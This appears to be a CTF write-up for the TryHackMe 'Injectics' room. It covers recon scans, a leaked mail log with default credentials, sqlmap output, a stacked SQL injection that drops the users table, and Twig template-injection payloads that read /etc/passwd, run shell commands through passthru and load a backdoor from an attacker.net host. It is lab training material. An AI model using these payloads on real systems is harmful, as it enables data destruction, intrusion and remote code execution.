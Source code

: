<code>
  
## injectics

https://tryhackme.com/r/room/injectics

### Enumeration

Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-01-16 06:01 EST
Nmap scan report for 10.10.136.219
Host is up (0.036s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.11 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 df:14:5e:7b:3c:5d:14:1e:a2:fb:8e:16:69:e8:1d:b7 (RSA)
|   256 d8:a2:ad:30:00:60:82:f1:a0:d9:8e:b8:50:93:65:7c (ECDSA)
|_  256 0f:50:9b:b7:2a:46:2c:d3:be:bb:dd:41:ee:d6:79:1b (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
|_http-title: Injectics Leaderboard
|_http-server-header: Apache/2.4.41 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 8.80 seconds


gobuster dir -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -u http://10.10.136.219 -x php,txt,html                                            

[+] Url:                     http://10.10.136.219
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Extensions:              php,txt,html
[+] Timeout:                 10s
/.html                (Status: 403) [Size: 278]
/index.php            (Status: 200) [Size: 6592]
/.php                 (Status: 403) [Size: 278]
/login.php            (Status: 200) [Size: 5401]
/flags                (Status: 301) [Size: 314] [--> http://10.10.136.219/flags/]
/css                  (Status: 301) [Size: 312] [--> http://10.10.136.219/css/]
/js                   (Status: 301) [Size: 311] [--> http://10.10.136.219/js/]
/javascript           (Status: 301) [Size: 319] [--> http://10.10.136.219/javascript/]
/logout.php           (Status: 302) [Size: 0] [--> index.php]
/vendor               (Status: 301) [Size: 315] [--> http://10.10.136.219/vendor/]
/dashboard.php        (Status: 302) [Size: 0] [--> dashboard.php]
/functions.php        (Status: 200) [Size: 0]
/phpmyadmin           (Status: 301) [Size: 319] [--> http://10.10.136.219/phpmyadmin/]
/.php                 (Status: 403) [Size: 278]
/.html                (Status: 403) [Size: 278]
/conn.php             (Status: 200) [Size: 0]
/server-status        (Status: 403) [Size: 278]



### in source code found notice about mail.log

http://10.10.136.219/mail.log

from: dev@injectics.thm
To: superadmin@injectics.thm
Subject: Update before holidays

Hey,

Before heading off on holidays, I wanted to update you on the latest changes to the website. I have implemented several enhancements and enabled a special service called Injectics. This service continuously monitors the database to ensure it remains in a stable state.

To add an extra layer of safety, I have configured the service to automatically insert default credentials into the `users` table if it is ever deleted or becomes corrupted. This ensures that we always have a way to access the system and perform necessary maintenance. I have scheduled the service to run every minute.

Here are the default credentials that will be added:

| Email                     | Password 	              |
|---------------------------|-------------------------|
| superadmin@injectics.thm  | superSecurePasswd101    |
| dev@injectics.thm         | devPasswd123            |

Please let me know if there are any further updates or changes needed.

Best regards,
Dev Team

dev@injectics.thm


┌──(kali㉿kali)-[~/Documents/THM/THM_Injectics]
└─$ sqlmap -r reg1.txt --level 5 --risk=3 --dump     
        ___
       __H__                                                                                                        
 ___ ___["]_____ ___ ___  {1.8.11#stable}                                                                           
|_ -| . [(]     | .'| . |                                                                                           
|___|_  [)]_|_|_|__,|  _|                                                                                           
      |_|V...       |_|   https://sqlmap.org                                                                        

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

[*] starting @ 09:15:11 /2025-01-16/

[09:15:11] [INFO] parsing HTTP request from 'reg1.txt'
[09:15:11] [INFO] resuming back-end DBMS 'mysql' 
[09:15:11] [INFO] testing connection to the target URL
sqlmap resumed the following injection point(s) from stored session:
---
Parameter: username (POST)
    Type: time-based blind
    Title: MySQL >= 5.0.12 RLIKE time-based blind
    Payload: username=10.10.9.71' RLIKE SLEEP(5)-- hcXN&password=10.10.9.71&function=login
---
[09:15:11] [INFO] the back-end DBMS is MySQL
web server operating system: Linux Ubuntu 20.10 or 20.04 or 19.10 (eoan or focal)
web application technology: Apache 2.4.41
back-end DBMS: MySQL >= 5.0.12
[09:15:11] [WARNING] missing database parameter. sqlmap is going to use the current database to enumerate table(s) entries
[09:15:11] [INFO] fetching current database
[09:15:11] [WARNING] time-based comparison requires larger statistical model, please wait.............................. (done)
[09:15:13] [WARNING] it is very important to not stress the network connection during usage of time-based payloads to prevent potential disruptions 

[09:15:13] [WARNING] in case of continuous data retrieval problems you are advised to try a switch '--no-cast' or switch '--hex'
[09:15:13] [INFO] fetching database names
[09:15:13] [INFO] fetching number of databases
[09:15:13] [INFO] retrieved: 
[09:15:13] [ERROR] unable to retrieve the number of databases
[09:15:13] [INFO] falling back to current database
[09:15:13] [INFO] fetching current database
[09:15:13] [INFO] retrieved: 
[09:15:14] [CRITICAL] unable to retrieve the database names
[09:15:14] [INFO] fetched data logged to text files under '/home/kali/.local/share/sqlmap/output/10.10.9.71'


http://injectics.thm/composer.json
equire	
twig/twig	"2.14.0"

http://injectics.thm//phpmyadmin/doc/html/index.html
phpMyAdmin 4.9.5

To get access to the admin panel for the challenge question, I need to delete the ‘users’ table. So I want to find somewhere to inject:

drop table users -- -

So inject in dashboard

POST /edit_leaderboard.php HTTP/1.1
Host: injectics.thm
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: http://injectics.thm/edit_leaderboard.php
Content-Type: application/x-www-form-urlencoded
Content-Length: 208
Origin: http://injectics.thm
Connection: keep-alive
Cookie: PHPSESSID=04v8k348jddp0b0d76n46c16cu
Upgrade-Insecure-Requests: 1

rank=2&country=&gold=7; drop table users -- -&silver=0&bronze=7



Found that first name item in http://injectics.thm/update_profile.php is SSTI vulneable with twig/twig	"2.14.0"

{{7*'7'}}
{{dump(app)}}
{{app.request.server.all|join(',')}}
"{{'/etc/passwd'|file_excerpt(1,30)}}"@
{{_self.env.setCache("ftp://attacker.net:2121")}}{{_self.env.loadTemplate("backdoor")}}
{{['id',""]|sort('passthru')}}
{{['ls -la ./flags',""]|sort('passthru')}}

  
<\code>
